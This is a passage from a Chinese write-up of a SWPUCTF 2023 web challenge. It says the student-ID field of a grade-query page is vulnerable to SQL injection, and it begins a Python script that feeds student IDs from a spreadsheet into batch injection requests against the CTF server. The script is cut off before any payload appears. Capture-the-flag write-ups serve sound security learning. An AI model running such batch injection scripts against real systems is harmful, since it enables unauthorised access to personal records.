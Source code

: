 
连上去 webshell;

## [SWPUCTF 2023 秋季新生赛 WEB] 查查need

### 题解

一个成绩查询界面, 附件有个 xls 表格, 网页上对输入有过滤, 抓包发现 POST 请求体, 源码提示有万能密码, 挨个试试, 发现学号处存在注入:

![27-1.png](27-1.png)

写个批量注入的脚本:

```python
import pandas as pd
import requests

url = 'http://node4.anna.nssctf.cn:28333/grades'
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080',
}

XLSX_PATH = 'wp/查查need/students.xlsx'


def get_students_list():
    # 读取 Excel 文件
    df = pd.read_excel(XLSX_PATH, header=0, engine="openpyxl")

    # 取第3列（因为 DataFrame 下标是0-based，所以 col_num-1）
```